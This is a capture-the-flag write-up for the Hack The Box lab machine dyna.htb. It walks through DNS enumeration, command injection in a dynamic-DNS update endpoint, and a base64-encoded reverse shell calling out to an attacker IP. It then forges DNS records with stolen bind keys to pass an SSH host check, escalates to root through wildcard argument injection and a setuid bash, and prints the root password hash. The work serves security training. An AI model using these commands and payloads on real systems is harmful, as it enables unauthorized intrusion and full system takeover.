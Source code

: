 # Main points
- DNS query: `dig`
- DNS [Overview](https://www.cloudflare.com/learning/dns/dns-records/)
- encode a payload in base64 and pipe to bash for RCE
- SSH can restrict access from a specific DNS zone `*.infra.dyna.htb`
- `nsupdate` to [#^7d4463|update DNS zones](/assets/%23%5E7d4463%7Cupdate%20DNS%20zones)
- `command *`  can be injected for command or parameter with filename
- `chmod +s` to set setuid bit to file, it can be elevated to owner/group
- `bash -p` to run bash privileged

# Writeup
## Enumeration
We start with nmap as usual
* 22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
* 53/tcp open  domain  syn-ack ISC BIND 9.16.1 (Ubuntu Linux)
* 80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))

Let's first start with the DNS port and query the server with a reverse lookup query with  `dig`
`dig @10.10.10.244 -x 10.10.10.244`
We get this
![Pasted image 20210720013314.png](/assets/Pasted%20image%2020210720013314.png)
So we discover these 2 hosts
`dns1.dyna.htb` and `hostmaster.dyna.htb`

let's add them to our `/etc/hosts` file and check the port 80
we go to `http://10.10.10.244/`
![Pasted image 20210720013627.png](/assets/Pasted%20image%2020210720013627.png)

So this is a DNS service, we scroll further down

![Pasted image 20210720013650.png](/assets/Pasted%20image%2020210720013650.png)
Interesting, let's save these creds for beta mode, we see there are other domains, let's add them to our `/etc/hosts` 

We see on the left it says they provide the same API as no-ip.com, so let's check [no-ip.com's  API](https://www.noip.com/integrate/request)

We see there is an endpoint `/nic/update` to send an update, let's use our creds found in beta mode to `no-ip.htb`
Let's fire up Burp Suite and catch the request to `http://no-ip.htb/nic/update` and change the `Authorization` header, as seen in the API documentation of `no-ip.com` to base64 of `username:password`
![Pasted image 20210720181925.png](/assets/Pasted%20image%2020210720181925.png)
We get
![Pasted image 20210720191556.png](/assets/Pasted%20image%2020210720191556.png)
Hmm, let's play a little with the hostname then
This one `dyna.dynamicdns.htb` worked
![Pasted image 20210720191841.png](/assets/Pasted%20image%2020210720191841.png)

When we add `'`  to hostname we get
![Pasted image 20210720192030.png](/assets/Pasted%20image%2020210720192030.png)

So it's probably using `nsupdate` like this
`nsupdate "$IP"`, maybe we can do command injection
We can see
![Pasted image 20210720192650.png](/assets/Pasted%20image%2020210720192650.png)

## Foothold

We have code injection. BUt we can't inject directly our reverse shell 
```bash
/bin/bash -l > /dev/tcp/10.10.14.127/4444 0<&1 2>&1
```
We can encode id in base64, and make the injection decode it and pipe it to bash
Our base64 reverse shell
```base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMjcvNDQ0NCAwPiYxIC1uCg==
```

```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTI3LzQ0NDQgMDwmMSAyPiYxCg==
```
We trigger the RCE with
```bash
echo [base64 encoded payload] | base64 -d | bash
```
![Pasted image 20210720200112.png](/assets/Pasted%20image%2020210720200112.png)
And we have a shell
![Pasted image 20210720200203.png](/assets/Pasted%20image%2020210720200203.png)

When we see the `/etc/passwd` file we see there are 2 users
`dyna` and `bindmgr`
![Pasted image 20210720200320.png](/assets/Pasted%20image%2020210720200320.png)

We see in `dyna` home directory
![Pasted image 20210720201117.png](/assets/Pasted%20image%2020210720201117.png)
So we will probably use dyna to get root

We see in `bindmgr` there is a strace file, we see there is a private SSH key but we can't connect with it, because it only accepts hosts from `*.infra.dyna.htb*`

## User

in `.ssh/authorized_keys`
![Pasted image 20210720213940.png](/assets/Pasted%20image%2020210720213940.png)
We see that our IP isn't in the DNS zone (must read more about that didnt understand everything)
So we should update the DNS zone of `*.infra.dyna.htb` with `nsupdate` with our IP, (seen in strace), we see there are keys in `/etc/bind`
```
nsupdate -k infra.key
update add pico.infra.dyna.htb 86400 A 10.10.14.127
update add 127.14.10.10.in-addr.arpa 300 PTR pico.infra.dyna.htb
send
```

^7d4463

And se try to ssh again and it works
![Pasted image 20210720215737.png](/assets/Pasted%20image%2020210720215737.png)
And we have user flag, let's try to get root.

# Priv Esc

We run `sudo -l` and we see
![Pasted image 20210720215922.png](/assets/Pasted%20image%2020210720215922.png)

Let's check the content of this file
![bindmgr.sh](/assets/bindmgr.sh)

So this script checks if there is a file named `.version` in the current directory where it is ran and if it's different than the one in /etc/bind/named/bindmgr, if not, it exits.

Then it copies everything with the command `cp .version *` to `/etc/bind/named.bindmgr`

And all the files copied are owned by root, so the idea is we copy the bash binary to /tmp where we have write access, add a setuid bit to be able to elevate to the owner (which will be root), and to preserve the `s` mode, we can inject the parameter `--preserve=mode` since the command to copy is `cp *` and not `cp ./*` and run `bash -p` to run as privileged user

```bash
cp /bin/bash .
chmod +s bash
echo "" > "--preserve=mode"
sudo /usr/local/bin/bindmgr.sh
/etc/bind/named.bindmgr/bash -p
```
And we have root
# Root hash
`$6$knCJjR0E8SuLyI5.$r7dGtVVY/Z6X0RQKxUvBZY4BQ3DwL7kHtu5YO9cclorPryKq489j2JqN262Ows/aRZvFkQ1R9uQyqoVWeS8ED1`